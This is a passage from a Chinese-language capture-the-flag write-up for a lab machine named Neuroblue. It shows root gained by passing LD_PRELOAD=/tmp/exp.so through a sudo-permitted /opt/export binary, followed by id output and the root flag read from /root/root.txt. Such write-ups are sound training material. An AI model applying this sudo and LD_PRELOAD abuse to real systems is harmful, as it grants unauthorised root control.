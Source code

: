 3. **触发漏洞并注入:**
   执行 `sudo /opt/export` 命令，并传递精心构造的参数。

   ```bash
   welcome@Neuroblue:/tmp$ sudo /opt/export LD_PRELOAD /tmp/exp.so "" "" "" "" "" ""
   # 此处脚本内部执行 export LD_PRELOAD=/tmp/exp.so
   # 然后执行 /usr/local/sbin/VMBreaker
   # VMBreaker 加载时，动态链接器发现 LD_PRELOAD，加载 exp.so
   # exp.so 的构造函数被执行...
   root@Neuroblue:/tmp# 
   ```

### 4.6. 获取 Root 权限 (Gaining Root Access)

成功执行上述 `sudo` 命令后，`/tmp/exp.so` 中的构造函数被触发，我们直接获得了一个 root 权限的 shell。

```bash
root@Neuroblue:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@Neuroblue:/tmp# whoami
root
```

成功获取 root 权限。

* **获取 Root Flag:** 读取 `/root/root.txt` 文件。

  ```bash
  root@Neuroblue:/tmp# cat /root/root.txt 
  flag{root-3960a29b415a278c2d88bb0543c5f283}
  ```



**注记：** 在本报告的撰写过程中，AI 语言模型为部分章节的文本组织、概念阐述及语言优化提供了辅助支持。